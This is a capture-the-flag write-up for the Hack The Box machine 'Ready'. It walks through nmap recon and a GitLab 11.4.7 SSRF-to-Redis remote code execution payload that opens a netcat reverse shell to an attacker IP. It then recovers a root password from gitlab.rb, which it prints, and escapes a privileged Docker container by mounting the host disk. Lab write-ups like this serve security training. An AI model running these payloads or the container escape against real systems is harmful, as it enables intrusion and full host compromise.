# Ready
IP : 10.10.10.220

## Nmap
Command : 
nmap -A -oN ready.txt 10.10.10.220
Port: 
22/tp 	ssh
5080/tcp http nginx 1.14.2
OS: 
unknown.

## web application 
Version : 
GitLab Commuity Edition v 11.4.7
Vulnerability to RCE via SSRF
https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/

Using the things I learned from "liveoverflow" I learned about crafting a package which can be sent using burb, remeber to create a netcat listener 
````
nc -lvnp 1234
````

````Bash
git://\[0:0:0:0:0:ffff:127.0.0.1\]:6379/ 
 multi
 sadd resque:gitlab:queues system\_hook\_push
 
 lpush resque:gitlab:queue:system\_hook\_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":\[\\"class\_eval\\",\\"open(\\'|nc -e /bin/bash 10.10.16.X 1234\\').read\\"\],\\"retry\\":3,\\"queue\\":\\"system\_hook\_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created\_at\\":1513714403.8122594,\\"enqueued\_at\\":1513714403.8129568}" 
 
 exec

 exec 
/ssrf.git
````

Get user flag in /home/dude 

## Root
Emulating we see a backup folder, here we find password to smtp
````bash
cat gitlab.rb | grep password 
````
wW59U!ZKMbG9+*#h
remember to upgrade the shell 

````Python 
python3 -c "import pty; pty.spawn('/bin/bash')"
````

become root 

````bash
su root 
```` 
where the password is one you found in gitlab.rb 

But nothing to be found inside root dir. look like we are in a container. 
by going to /proc/1/cgroup 
We that it a docker container we are inside. 

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1?gi=c1a107350323

privileged container check 
````bash
ip link add dummy0 type dummy
````
And it a success meaning we got a priv container

let try esacape the container. 
````Bash
mkdir /tmp/test
mount /dev/sda2 /tmp/test
cat /tmp/test/root/root.txt
````

And we got root.